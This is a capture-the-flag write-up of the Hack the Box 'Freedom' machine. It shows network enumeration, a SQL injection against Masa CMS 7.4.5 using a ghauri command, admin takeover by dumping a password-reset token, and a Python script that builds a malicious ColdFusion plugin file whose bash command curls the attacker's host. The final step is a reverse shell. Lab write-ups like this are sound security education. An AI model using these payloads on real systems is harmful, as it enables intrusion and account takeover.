#Freedom

Freedom is the second of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 

## Reconnaissance 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 16:01 CET
Nmap scan report for freedom.htb (10.129.242.128)
Host is up (0.044s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Since this machine appeared to be a windows host and more specifically a DC and we don’t have any credentials on the AD let’s try to see if we can grab anything using default accounts like Guest or anonymous :
```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "" -p "" --shares
SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [+] freedom.htb\: 
SMB         10.129.242.128  445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "guest" -p "" --shares

SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [-] freedom.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Unfortunately this wasn’t very successful, same for enum4linux.

In our initial nmap scan we could see that the port 80 was open so let’s check it out. We realised it was cms running which was called “Masa CMS” and found several endpoints corresponding to an API : [http://freedom.htb/index.cfm/_api/json/v1/default/](http://freedom.htb/index.cfm/_api/json/v1/default/)

![Masa CMS API](/HTB-UNIVERSITY-2024/images/api_masa.png)

The website was essentially a blog with a search functionality that allowed us to filter the articles being posted there. We tried several payloads in order to get an xss or even a ssti but nothing successful.  

Checking out the robots.txt file we found this : 

```
User-agent: *
Crawl-Delay: 5
Disallow: /admin/
Disallow: /core/
Disallow: /modules/
Disallow: /config/
Disallow: /themes/
Disallow: /plugins/
```

And visiting the /admin endpoint redirected us to the login page of the CMS : `[http://freedom.htb/admin/?muraAction=clogin.main](http://freedom.htb/admin/?muraAction=clogin.main)`

![Masa CMS Login](/HTB-UNIVERSITY-2024/images/login_masa_cms.png)

No default or weak credentials turned out to work unfortunately so let’s dig deeper. 
Playing around with several requests and looking at the answers on burp we managed to pinpoint the exact version of the CMS : Masa CMS 7.4.5

  ![Masa CMS version](/HTB-UNIVERSITY-2024/images/masa_cms_version.png)
  
After a bit of research we found out that this version of Masa CMS was vulnerable to an SQLi : [https://projectdiscovery.io/blog/hacking-apple-with-sql-injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection)

## User flag/Root flag

Let's verify if our instance is indeed vulnerable : 

`http://freedom.htb/index.cfm//_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'&previewID=x`

![Masa CMS version](/HTB-UNIVERSITY-2024/images/masa_sql_error.png)

After searching for masa cms sqli we found this CVE with a POC:
  
[https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS)
  
After debugging and modifying a bit the script since it did not work for us on the first time we managed to use this payload:  
  
`ghauri -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C&previewID=x" -p contenthistid --dbs --current-db`

```
available databases [5]:
[] sys
[] performance_schema
[] information_schema
[] dbMasaCMS
[*] mysql
```

We dumped the DB and found an interesting table containing several users and their info -> including bcrypt password hashes but we were unable to crack them.

We then decided to change our approach by resetting the administrator password using the “forgot password button” and dumping the reset token in the db. 

![Reset admin pwd](/HTB-UNIVERSITY-2024/images/rest_admin_pwd.png)

At first we were unsuccessful at this and since the CMS was open source our idea was to reverse engineer the method responsible to generate forgotten password tokens : 

```
<cfset returnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#"> 

<cfelse>
<cfsetreturnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#">
```

Using infos found in the dumped db we managed to get close to a valid reset link : 

`http://freedom.htb/index.cfm/75296552-E0A8-4539-B1A46C806D767072/22FC551F-FABE-EA01-C6EDD0885DDC1682/?userID=75296552-E0A8-4539-B1A46C806D767072`

But it was flagged as `invalid or incorrect reset link`. Around the same time, a 
teammate managed to dump the link directly in the db using sqlmap : 

`http://freedom.htb/?display=editProfile&returnID=E7EAB9CD-78D7-4EBB-A3FA718298F0CF15&returnUserID=75296552-E0A8-4539-B1A46C806D767072`

![Token db](/HTB-UNIVERSITY-2024/images/token_db.png)

We can then reset the admin password to "admin" for exemple and login on the CMS.
After looking around the administration page we find an interesting feature : 
 
 ![Upload plugin](/HTB-UNIVERSITY-2024/images/upload_plugin.png)
While searching for plugin examples we stumbled accross this repository : https://github.com/MasaCMS/MasaAuthenticator

After spending quite some time analysing its source code and testing several payloads / uploading them on the CMS, we managed to get a remote code execution by modifying the following file : `config.xml.cfm`

Initially we used this tool [https://github.com/Impenetrable/ReverseFusion/tree/master](https://github.com/Impenetrable/ReverseFusion/tree/master "https://github.com/Impenetrable/ReverseFusion/tree/master")
to generate a reverse shell payload embedded into the .cfm file since we thought the target machine was a windows host (the DC). 

However while testing out our RCE payload, we got an error indicating it couldn't find cmd.exe and showed us clear sign of a linux host (Absolute path like "/var/www/html")

Let's modify the script to get a working RCE : 

```
import sys 
import base64

ip = input("Enter attacking IP address: ")
port = int(input("Enter attacking port number: "))
filename = input("Enter output file name: ")

payload = "curl http://10.10.14.182:4444/toto.txt" 
payload = f"arguments=\"-c {payload}\"" 

with open( filename+".cfm", "w+") as f: 
	f.write("<cfexecute name=\"/bin/bash\"\r") 
	f.write(payload+"\r") f.write("variable=\"data\"\r") 
	f.write("timeout=\"10\" />\r") 
	f.write("<cfdump var=\"#data#\">")

```

We zipped the whole plugin again with our malicious : `config.xml.cfm`

 ![Payload](/HTB-UNIVERSITY-2024/images/malicious_payload.png)
 
And uploaded it onto the CMS : 

![Zip exploit](/HTB-UNIVERSITY-2024/images/exploitzip.png)

Now to trigger our payload we just clicked on "Deploy" and we got our shell : 

![Reverse shell](/images/reverse_shell.png)

We get a shell on the wsl running on the windows host, but the whole C drive is mounted and we are root! A simple grep and we got both the user and the root flag at the same time! Our solve was completely unintended as the actual solve was mostly AD related (kerberoasting / asrep roasting / kerbrute..).
